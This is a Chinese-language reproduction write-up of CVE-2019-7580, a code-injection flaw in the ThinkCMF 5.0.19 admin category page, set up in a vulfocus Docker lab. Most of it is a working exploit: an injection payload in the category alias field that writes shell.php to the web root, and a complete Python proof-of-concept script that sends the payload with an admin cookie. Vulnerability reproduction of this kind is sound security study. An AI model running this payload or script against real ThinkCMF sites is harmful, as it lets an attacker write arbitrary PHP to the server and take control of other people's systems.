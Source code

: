 # CVE-2019-7580 漏洞复现



## 1.漏洞简介

ThinkCMF 是一款支持[Swoole](https://so.csdn.net/so/search?q=Swoole&spm=1001.2101.3001.7020)的开源内容管理框架(CMF), 基于ThinkPHP开发. thinkcmf 5.0.19 这个版本后台提供路由自定义，远程攻击者攻击者可通过向 portal/admin_category/addpost.html 页面发送‘别名’参数利用该漏洞注入任意代码。



## 2.环境介绍

拉取 vulfocus 现有镜像，并运行到 80 端口。

docker-compose.yml

```yml
version: '3'
services:
  thinkcmf:
    image: vulfocus/thinkcmf-cve_2019_7580
    ports:
      - 80:80
```



## 3.复现过程

启动环境。

![image-20230727214003016](img/image-20230727214003016.png)

使用账号密码：admin/123456 登陆成功。

![image-20230727214558454](img/image-20230727214558454.png)

登陆成功后，在门户管理->分类管理->添加分类处的分类别名处添加 payload .

```
1'=>array(""),file_put_contents('shell.php','<?php phpinfo();?>'),'2
```

![image-20230727224332274](img/image-20230727224332274.png)

点击添加后会在根目录下生成 shell.php .

![image-20230727225233733](img/image-20230727225233733.png)

编写poc：

```python
import requests
import sys


def send_request(host, cookie):
    url = f"http://{host}/portal/admin_category/addpost.html"
    headers = {
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "X-Requested-With": "XMLHttpRequest",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Origin": f"http://{host}",
        "Referer": f"http://{host}/portal/admin_category/add.html",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Cookie": cookie,
        "Connection": "close"
    }

    payload = {
        "parent_id": "0",
        "name": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "alias": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "description": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "more[thumbnail]": "",
        "seo_title": "",
        "seo_keywords": "",
        "seo_description": "",
        "list_tpl": "list",
        "one_tpl": "article"
    }

    response = requests.post(url, headers=headers, data=payload)
    shell = f"http://{host}/shell.php"
    if "添加成功" in response.text and response.status_code == 200:
        print(f"phpinfo()已写入shell.php，地址为{shell}")
    else:
        print("phpinfo()写入失败")


if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("Usage: python poc.py host cookie")
    else:
        host = sys.argv[1]
        cookie = sys.argv[2]
        send_request(host, cookie)
```

脚本中需要 host 和 cookie 两个参数，下图可快速获取 cookie，cookie 中只需要图中三个参数。

![image-20230727235551350](img/image-20230727235551350.png)

执行脚本。

![image-20230728000106793](img/image-20230728000106793.png)

再次成功写入

![image-20230727234147078](img/image-20230727234147078.png)

